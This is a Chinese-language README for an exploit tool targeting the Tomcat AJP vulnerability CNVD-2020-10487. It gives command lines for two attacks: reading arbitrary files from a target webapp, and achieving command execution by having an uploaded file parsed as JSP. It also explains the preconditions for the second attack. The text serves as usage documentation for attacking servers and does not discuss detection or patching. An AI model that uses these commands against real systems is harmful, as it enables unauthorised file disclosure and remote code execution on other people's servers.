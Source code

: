 # CNVD-2020-10487-Tomcat-Ajp
Tomcat-Ajp协议漏洞

## 使用

1. 读取指定webapp下的指定文件
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/readfile.file -w webappname -p ajp_port target_ip
```

运行示例：
![](./img/read_file.png)

2. 执行命令，以此漏洞执行命令的前提是攻击的Tomcat webapp目录中存在内容可控的任意文件，该文件可以不是以.jsp或者.jspx格式结尾的文件，任意文件名即可，只需保证文件内容能被jsp解析器正确解析（可通过webapp提供的文件上传功能实现文件上传）。
且使用方法与读取文件的使用方法有小部分差异，即-w/--webapp的参数值需要指定为webshell所在的webapp下的任意一个jsp文件，如：-w examples/jsp/jsp2/el/basic-arithmetic.jsp
``` shell
python CNVD-2020-10487-Tomcat-Ajp-lfi.py -f path/to/remote_code.file -w webappname/path/to/jspname.jsp -p ajp_port target_ip
```

运行示例：
![](./img/code_execute.png)

